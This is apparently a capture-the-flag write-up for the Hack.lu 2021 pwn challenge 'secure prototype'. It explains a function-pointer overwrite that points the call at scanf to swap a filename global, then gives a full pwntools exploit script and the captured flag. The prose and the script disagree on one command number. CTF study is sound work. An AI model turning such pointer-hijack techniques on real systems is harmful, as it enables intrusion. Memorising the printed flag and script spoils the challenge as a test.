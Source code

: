 ```yaml
---
title: "【Hack.lu CTF 2021】secure prototype 【pwn】"
date: 2021-10-31 16:07:32
tags:
    - hack.lu
    - ctf
    - writeup
categories:
    - CTF
---
```


# 0x1 introduction

[https://flu.xxx/challenges/16](https://flu.xxx/challenges/16)

# 0x3 Mitigations

```
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)
```

# 0x3 Solution

challenge contains 3 file, challenge.elf, stonks.txt, flag.txt

using decompiler and take a deep look at functions.

<!-- more -->

![2021-10-31_151419.jpg](./images/2021-10-31_151419.jpg)

after enter the correct command and enter three variable, it will jump to function at 108e0, 108e0 contains a switch that call different function depending on the command user enter.

![2021-10-31_151832.jpg](./images/2021-10-31_151832.jpg)

notice that string "stonks.txt" are stored in the `byte_22058`, and with commmand *48*, function `sub_10B80` will read `byte_22058` as a filename, and print out whether in the file.

so, we got an idea that if we need get the flag, we need to change `byte_22058` to "flag.txt" instead of "stonks.txt"

looking at other commands, command *1056* allow us pass a integer as a pointer to an function (lets say **funcA**).

and with command *4619*, we have call **funcA** with our 1st and 2nd parameter.

so, here is the question. Is there any function that take 2 pointer parameter and can modify a string. 

the answer is `plt:00010570 __isoc99_scanf`, we can use `scanf("%s",char* str)` to read input from stdin and write str.

in this case, str is the address of `byte_22058`, and "%s" can also found in the data section.

therefore, we have the process of getting the flag.

1. use 1056: change function address to scanf
2. use 4619: call scanf and write flag.txt to byte_22058
3. use 48: print out the file content in filename(byte_22058)


# 0x4 exp.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=flu.xxx' '--port=20040' challenge.elf
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('challenge.elf')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'flu.xxx'
port = int(args.PORT or 20040)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)

io = start()
print(1,io.recvuntil(b">>>"))
io.sendline(b"1056")
print(2,io.recvuntil(b">>>"))
io.sendline(b"66928 0 0")
print(3,io.recvuntil(b">>>"))
io.sendline(b"4919")
print(4,io.recvuntil(b">>>"))
io.sendline(b"70140 139352 0")
io.sendline(b"flag.txt\x00")
print(5,io.recvuntil(b">>>"))
io.sendline(b"48")
print(6,io.recvuntil(b">>>"))
io.sendline(b"123 456 789")
print(io.recv())



print("%%s",0x111fc)
print("22058",0x0022058)
print("scanf",0x00010570)
```

# 0x5 flag

flag{gl0bal_st0nkz_and_gl0bal_var1abl3}
